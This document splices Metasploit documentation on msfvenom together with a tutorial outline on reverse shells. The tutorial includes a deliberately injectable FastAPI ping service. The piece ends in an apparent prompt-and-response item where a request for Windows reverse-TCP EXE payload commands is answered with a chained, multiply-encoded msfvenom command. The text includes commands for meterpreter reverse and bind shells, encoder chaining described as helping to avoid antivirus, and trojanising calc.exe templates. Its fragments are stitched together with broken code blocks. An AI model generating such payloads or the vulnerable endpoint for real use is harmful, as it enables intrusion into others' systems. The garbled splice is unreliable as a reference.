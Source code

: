 Context:# How to generate a payload  
To generate a payload, there are two flags that you must supply (-p and -f):  
* **The -p flag: Specifies what payload to generate**  
To see what payloads are available from Framework, you can do:  
```
./msfvenom -l payloads  
The -p flag also supports "-" as a way to accept a custom payload:  
```
cat payload_file.bin | ./msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f raw  
* **The -f flag: Specifies the format of the payload**  
Syntax example:  
```
./msfvenom -p windows/meterpreter/bind_tcp -f exe  
To see what formats are supported, you can do the following to find out:  
```
./msfvenom --help-formats  
Typically, this is probably how you will use msfvenom:  
```
$ ./msfvenom -p windows/meterpreter/reverse_tcp lhost=[Attacker's IP] lport=4444 -f exe -o /tmp/my_payload.exe  
# How to encode a payload  
By default, the encoding feature will automatically kick in when you use the -b flag (the badchar flag). In other cases, you must use the -e flag like the following:  
```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw  
To find out what encoders you can use, you can use the -l flag:  
```
./msfvenom -l encoders  
You can also encode the payload multiple times using the -i flag. Sometimes more iterations may help avoiding antivirus, but know that encoding isn't really meant to be used a real AV evasion solution:  
```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3  
# How to avoid bad characters  
The -b flag is meant to be used to avoid certain characters in the payload. When this option is used, msfvenom will automatically find a suitable encoder to encode the payload:  
```
./msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw  
# How to supply a custom template  
By default, msfvenom uses templates from the msf/data/templates directory. If you'd like to choose your own, you can use the -x flag like the following:  
```
./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe  
Please note: If you'd like to create a x64 payload with a custom x64 custom template for Windows, then instead of the exe format, you should use exe-only:  
```
./msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe  
The -x flag is often paired with the -k flag, which allows you to run your payload as a new thread from the template. However, this currently is only reliable for older Windows machines such as x86 Windows XP.  
# How to chain msfvenom output  
The old ``msfpayload`` and ``msfencode`` utilities were often chained together in order layer on multiple encodings. This is possible using ``msfvenom`` as well:  
```
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.3 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 | \
./msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
./msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
## On this page
* [List of Metasploit reverse shells](#list-of-metasploit-reverse-shells)
* [Windows common reverse shell](#windows-common-reverse-shell)
* [Linux common reverse shell](#linux-common-reverse-shell)
* [When to use a reverse shell](#when-to-use-a-reverse-shell)
* [When a reverse shell isn't needed](#when-a-reverse-shell-isnt-needed)
* [How to set up for a reverse shell during payload generation](#how-to-set-up-for-a-reverse-shell-during-payload-generation)
* [Demonstration](#demonstration)
* [Step 1: Generate the executable payload](#step-1-generate-the-executable-payload)
* [Step 2: Copy the executable payload to box B](#step-2-copy-the-executable-payload-to-box-b)
* [Step 3: Set up the payload handler on box A](#step-3-set-up-the-payload-handler-on-box-a)
* [Step 4: Double-click on the malicious executable](#step-4-double-click-on-the-malicious-executable)
* [Step 5: View the meterpreter/payload session on box A](#step-5-view-the-meterpreterpayload-session-on-box-a)  
There are two popular types of shells: bind and reverse.
Bind shell - Opens up a new service on the target machine and requires the attacker to connect to it to get a session.
Reverse shell - A reverse shell is also known as a connect-back. It requires the attacker to set up a listener first on his box, the target machine acts as a client connecting to that listener, and then finally, the attacker receives the shell.  
You can learn more about the primary use of payloads in the 5.2.4 Selecting the Payload section of the old [Metasploit Users Guide](http://cs.uccs.edu/~cs591/metasploit/users_guide3_1.pdf).  
This article goes over using a reverse shell to get a session.  
## List of Metasploit reverse shells  
To get a list of reverse shells, use the `msfpayload` command. B  
```bash
./msfpayload -l |grep reverse
If you've found a way to execute a command on a target, and you'd like to make a simple exploit module to get a shell, this guide is for you. Alternatively, if you have access to **fetch** commands on the target (curl, wget, ftp, tftp, tnftp, or certutil), you can use a [[Fetch Payload|How-to-use-fetch-payloads]] for a no-code solution.  
By the end of this guide you'll understand how to turn [Command injection](https://owasp.org/www-community/attacks/Command_Injection) into a shell - from here, you can move on to the [[command stager|How-to-use-command-stagers]] article and upgrade your basic `:unix_cmd` Target to a Dropper for all kinds of payloads with variable command stagers.  
This guide assumes *some* knowledge of programming (Understand what a class is, what methods/functions are) but expects no in-depth knowledge of Metasploit internals.  
## A Vulnerable Service  
For the vulnerable service test case, we'll be using a simple FastAPI service. This is very easy to spin up:  
1. Install `fastapi[all]` using your preferred Python package manager (a virtual environment is recommended)
2. Create a file to hold some Python code (I'll call it `main.py`)
3. Copy the following code into your file:  
```python
from fastapi import FastAPI, Response
import subprocess

app = FastAPI()

@app.get("/ping")
def ping(ip : str):
res = subprocess.run(f"ping -c 1 {ip}", shell=True, capture_output=True)
return Response(content=res.stdout.decode("utf-8"), media_type="text/plain")

 Question: Generate a list of Bash commands to create EXE payloads for Windows using Metasploit. Each command should generate a reverse TCP payload and follow the format for Metasploit's msfvenom tool, targeting Windows systems.Respond with only bash command with no output or other text explaination.  

 Your response: 
```bash
./msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.3 lport=4444 -f raw -e x86/shikata_ga_nai -i 5 | ./msfvenom -a x86 --platform windows -e x86/countdown -i 8 -f exe -o payload.exe
```
